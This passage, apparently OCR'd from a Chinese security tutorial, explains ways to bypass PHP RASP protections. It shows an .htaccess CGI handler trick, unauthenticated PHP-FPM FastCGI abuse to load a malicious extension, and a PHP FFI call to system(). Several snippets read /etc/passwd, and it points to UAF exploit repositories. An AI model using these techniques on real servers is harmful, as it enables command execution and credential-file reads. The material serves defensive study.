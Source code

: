 ```
Options +ExecCGIAddHandler cgi-script .tt#后缀为tt为文件就会被当作cgi执行
```

shell.tt

```
#!/bin/shcat /etc/passwd
```

## 6. PHP-FPM

PHP-FPM是一个fastcgi协议解析器，默认监听在9000端口。php-fpm由于**未授权访问**的设计缺陷，它没有相应的访问验证，因此 可以自己构造fastcgi协议，与php-fpm进行通信，让它帮我们干一些”坏事”，比如动态加载上传的恶意php扩展。
FastCGI协议由多个record组成，和HTTP协议类似，也有header和body ，但是和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

```
typedef struct {  /* Header */  unsigned char version; // 版本  unsigned char type; // 请求包的类型...} FCGI_Record;
```

在传入的FastCGI协议数据包中，设置 type=4，就可以给php-fpm传递环境参数，指挥它工作。

通过FastCGI协议告诉php-fpm去加载一个我们自定义的扩展，这涉及到php-fpm的两个环境变量，`PHP_VALUE` 和 `PHP_ADMIN_VALUE`。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为`PHP_INI_USER`和`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`可以设置所有选项。我们只要发送如下类似的请求就可以实现扩展的自动加载。

```
{'GATEWAY_INTERFACE' => 'FastCGI/1.0','REQUEST_METHOD' => 'POST','SERVER_SOFTWARE' => 'php/fcgiclient','REMOTE_ADDR' => '127.0.0.1','REMOTE_PORT' => '9984','SERVER_ADDR' => '127.0.0.1','SERVER_PORT' => '80','SERVER_NAME' => 'mag-tured','SERVER_PROTOCOL' => 'HTTP/1.1','CONTENT_TYPE' => 'application/x-www-form-urlencoded','PHP_VALUE' => 'extension=xxx.so','PHP_ADMIN_VALUE' => 'extension=xxx.so','CONTENT_LENGTH' => strlen($content)}
```

推荐几个项目，可以方便大家更好的操作：

```
python实现的fastcgi client：https://github.com/wuyunfeng/Python-FastCGI-Clientphp实现的fastcgi client：https://github.com/adoy/PHP-FastCGI-Clientphp扩展生成：https://github.com/qiyeboy/arbitrary-php-extension
```

## 7.C接口

FFI（Foreign Function Interface）是 PHP7.4 新加入的功能，即外部函数接口，允许从共享库中调用C代码，导致风险点扩大。调用glibc中的system:

```
$ffi = FFI::cdef("int system(char* command);");$ffi ->system("cat /etc/passwd");
```

## 8.已知漏洞

php有一些已知的释放重引用漏洞，比如 GC UAF、Json Serializer UAF 、Backtrace UAF等，具体的exp位于https://github.com/mm0r1/exploits/

通过第一部分对 RASP（PHP）原理的讲解，我们知道PHP函数的底层调用都要通过CG(function_table)获取所调用函数的handler。无论 RASP 是hook opcode 还是 hook function，本质上都没有从内存中删除所调用的函数，只是改变了走向，指向了我们自定义的函数。正因如此，我们可以通过上述漏洞，找到内存中对应的函数地址，将其封装为闭包实现调用，从而完成绕过 。以 system函数为例，绕过原理简单总结如下图所示：
